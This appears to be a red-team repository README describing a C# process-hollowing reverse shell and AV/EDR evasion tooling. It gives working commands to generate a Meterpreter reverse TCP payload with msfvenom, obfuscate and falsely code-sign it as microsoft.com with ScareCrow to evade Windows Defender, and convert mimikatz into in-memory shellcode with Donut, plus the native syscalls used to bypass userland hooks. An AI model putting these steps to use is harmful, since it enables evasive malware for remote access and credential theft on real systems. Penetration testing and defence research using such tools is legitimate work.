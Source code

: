 # redteam

## source-codes
***reverse-shell-hollowing.cs*** - This C# code executes a reverse shell using the Process Hollowing technique, where a victim process is created in a suspended state, its original process (e.g.: notepad.exe) is carved out from memory, a malicious binary gets written instead and the program state is resumed to execute the injected code.</br> 
You can compile it with `mcs hollowing.cs`

## Useful Commands

***ScareCrow*** - This framework generates a "obfuscated" binary using some bypass techniques like DLL unhooking, ETW patching and Code signing(The same as ***limelighter*** does).</br> Example of usage:</br> You can generate a malicious binary and test in your windows vm if it is detected by windows defender:</br> `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=IP LPORT=443 -f raw -o malware.bin`</br> Then, use ScareCrow to generate obfuscated versions:</br> `./ScareCrow -I malware.bin -domain www.microsoft.com -encryptionmode AES` (You can change the encryption mode to ELZMA)</br>
>  When signing the loader with microsoft.com, using them against WINDOWS DEFENDER ATP products may not be as effective as they can validate the cert as it belongs to them. If you are using a loader against a windows product, possibly use a different domain.</br>


***Donut*** - The main goal of this tool is to generate shellcode from .NET Assemblies(eg. mimikatz.exe) both a Windows EXE and a Python (Python planned for v1.0) script are provided for payload generation. That allows loading and executing payloads directly in memory.</br>
Command example: `./donut mimikatz.exe -a 2`</br>
Then, with mimikatz's shellcode, you must create an injector which is using syscalls in order to bypass AV/EDR which is mainly focused on Userland API hookings. Before implementing the use of *syscalls*, it is necessary to first identify the native "syscall" equivalent of the Windows API used in the baseline code.

>Native API
</br>
>NtOpenProcess
</br>
>NtAllocateVirtualMemory
</br>
>NtWriteVirtualMemory
</br>
>NtCreateThreadEx
</br>
>NtClose
